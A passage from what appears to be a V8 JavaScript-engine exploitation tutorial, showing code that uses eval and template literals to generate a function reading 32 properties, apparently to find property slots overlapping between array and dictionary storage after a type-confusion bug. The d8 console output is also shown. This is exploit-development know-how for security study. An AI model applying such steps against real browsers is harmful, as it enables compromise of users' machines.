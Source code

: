 From here we can start writing our function that will search for overlapped properties. One modification we will make is to our `vuln` function, which previously triggered the bug and returned property `b` of the object. In this case, we want to return the values of all properties so that we can compare them between the array and dictionary.

To do this, we can use the [`eval`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function with [template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) to generate all the return statements at runtime with just a few lines of code. The following code allows us to do that:

```js
function findOverlappingProperties() {
    // Create an array of all 32 property names such as p1..p32
    let pNames = [];
    for (let i = 0; i < 32; i++) {
        pNames[i] = 'p' + i;
    }

    // Create eval of function that will generate code during runtime
    eval(`
    function vuln(obj) {
      obj.inline;
      Object.create(obj);
      ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
      return [${pNames.join(', ')}];
    }
  `)
}
```

If you are confused about the last two lines in the `eval` function, here is a brief explanation. We are using template literals (backticks) and _placeholders_ within the template, which are embedded expressions delimited by a dollar sign and curly braces: `${expression}`. When we call the `vuln` function at runtime, these expressions undergo [string interpolation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#string_interpolation) and the expression will be replaced with a generated string.

In our case we are using the [map](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/map) function on the `pNames` array to create a new array of strings that will equate to `let p1 = obj.p1`. This allows us to generate these lines of code to set and return the values of all properties during runtime, instead of hardcoding everything.

An example of the output after the `eval` function can be seen in d8, like so:

```js
d8> let pNames = []; for (let i = 0; i < 32; i++) {pNames[i] = 'p' + i;}
"p31"
d8> pNames
["p0", "p1", "p2", "p3", "p4", "p5", "p6", "p7", "p8", "p9", "p10", "p11", "p12", "p13", "p14", "p15", "p16", "p17", "p18", "p19", "p20", "p21", "p22", "p23", "p24", "p25", "p26", "p27", "p28", "p29", "p30", "p31"]
d8> pNames.map((p) => `let ${p} = obj.${p};`).join('\n')
let p0 = obj.p0;
let p1 = obj.p1;
let p2 = obj.p2;
let p3 = obj.p3;
let p4 = obj.p4;
let p5 = obj.p5;
...
```

